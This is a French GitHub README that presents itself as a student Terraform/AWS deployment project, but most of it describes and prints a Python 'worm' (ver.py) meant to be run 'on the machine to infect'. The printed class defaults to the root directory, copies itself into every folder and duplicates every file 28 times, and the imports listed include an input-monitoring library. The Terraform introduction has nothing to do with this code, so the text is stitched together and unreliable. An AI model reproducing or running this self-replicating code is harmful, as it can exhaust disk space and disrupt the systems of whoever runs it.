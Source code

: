 <!-- markdownlint-disable first-line-h1 no-inline-html -->  
![DESCRIPTION DE L'IMAGE](https://www.svgrepo.com/show/376353/terraform.svg)
# Projet-AWS-terraform

![Forums][discuss-badge]

[discuss-badge]: https://img.shields.io/badge/Made%20with-terraform-blue


Dans le cadre de notre semaine de formation sur les outils terraform et puppet nous avons un projet terraform à créer

## Sujet

Dans le cadre du projet nous devons déployer une infra complète aws avec terrafom, les prérequis sont :

- un module pour créer une instance ec2 utilisant la dernière version de ubuntu
- un module pour créer un volume ebs dont la taille sera variabilisée
- un module pour créer une security qui ouvrira le 80 et 443
- un dossier app qui va utiliser les 4 modules pour déployer une ec2


### Pré-requis

Il faut executer le fichier ver.py et avoir un dossier test ou le vers pourras ce dupliquer.


### Installation

* _Pour_ _Windows_ :

  Pour installer python il faut se rendre sur https://www.python.org/downloads/

* _Pour_ _Ubuntu_ :

  Pour installer python il faut utiliser la commande sudo apt-get install python

## Démarrage

Pour lancer le logiciel il faut juste taper *Python3 ver.py* sur la machine a infecter


## Explication du code 


* _Pour_ _ver.py_ :

--------------------------Les imports---------------------

os fournit une façon portable d'utiliser les fonctionnalités dépendantes du système d'exploitation

pynput permet de contrôler et de surveiller les périphériques d'entrée.

datime permet fournir différentes fonctions liées au temps 

logging permet de gerer les logs


----------------------Traitement------------------------

Tout d'abords nous avons la class worm pour la création de notre vers , le ver ce copy et ce replique dans un dossier test et modifie les extensions des fichier copié

```python
class Worm:
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path="/"
        else:
            self.path = path
        
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list=[]
        else:
            self.target_dir_list = target_dir_list

        if isinstance(target_dir_list, type(None)):
            self.iteration = 28
        else:
            self.iteration = iteration

        # path absolu
        self.own_path = os.path.realpath(__file__)
    
    def list_directories(self, path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)

        for file in files_in_current_directory:
            
            if not file.startswith('.'):
                # Prends le PATH complet
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
    
    def create_new_worm(self):
         for directory in self.target_dir_list:
            destination = os.path.join(directory, "vers.py")
            # Copie le script dans le nouveau répertoire avec un noms similaires
            shutil.copyfile(self.own_path, destination)

    def copy_existing_file(self):
        # La méthode suivante sera utilisée pour dupliquer les fichiers un nombre de fois (iteration)
         for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,(file+str(i)))
                        shutil.copyfile(source, destination)

   
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_file()
  ```
 
 
Le code suivant permet d'appeler toutes les foncitons au lancement du ver
